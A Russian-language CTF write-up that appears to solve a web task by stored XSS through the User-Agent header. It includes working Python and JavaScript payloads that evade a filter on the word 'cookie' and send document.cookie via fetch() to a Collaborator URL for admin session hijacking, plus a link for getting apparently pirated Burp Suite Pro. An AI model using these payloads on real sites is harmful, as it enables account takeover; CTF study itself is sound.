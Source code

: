 
# task 1


**level**: **Hard**


**Description**: Воображение важнее, чем знания


**IP**: 62.173.140.174:16035


Первое что мы видим - форма логин/регистрации, для этого нужно получить доступ к аккаунту админа.


Изучаем html код на наличие подсказок, скрытых функций и тд.
<!-- Send Post request with parameter newpassword .... -->
Отлично, какой-то скрытый функционал, позже мы к нему вернемся.
Исследуем далее.

Попробуем XSS payload:
````javascript 
<script>alert(1)</script>
Но изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent запросто!
Для этого напишем скрипт на python, он нам очень пригодится в будущем.
# Проведение атаки
````python 
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
````

У нас получилось внедрить свой код.
### Возможные пути кражи аккаунта через XSS:

1. **Кража cookies**
    
2. **Phishing**
   
4. **Манипуляции с DOM**
    
5. **Кража токенов аутентификации**

# способ 
Для данного способа вам потребуется ```Burp Suite Pro```. Почему именно PRO?
Потому, что там есть ```Collaborator```, которого нет в бесплатной версии. 
Переходим по ссылке ``` https://t.me/pt_soft``` чтобы "КУПИТЬ" нашу лицензию.
В поиске по каналу в телеге ищем **Burpsuite**. И устанавливаем.

## Атака

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем alert();

````python 
import requests

payload = '<script>alert(document.cookie);</script>'
user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И сталкиваемся с проблемой
Все сработало, но вот alert'a нет, потому что на Codeby.games есть похожий таск, и автор данного решил чтобы все было не так просто, применить фильтрацию на серверной части на слово ```cookie```.
Мы это тоже обойдем, нужно просто немного **подумать**.
## Обход фильтрации
Попбробуем обойти фильтрацию с помощью cookie
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests

payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````

Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

Для понимания как это работает.

1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.
5) Если окошко как на фото снизу не появляется, то нажмите на "+. Это создаст новую сессию и обновит окошко.

Мы только что поймали наш request и можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер.

````python 
import requests
payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
print(response.status_code)
print(response.text)
````
Отправляем, ждем, пуллим.
Подставим значение PHPSESSID в наш браузер. 
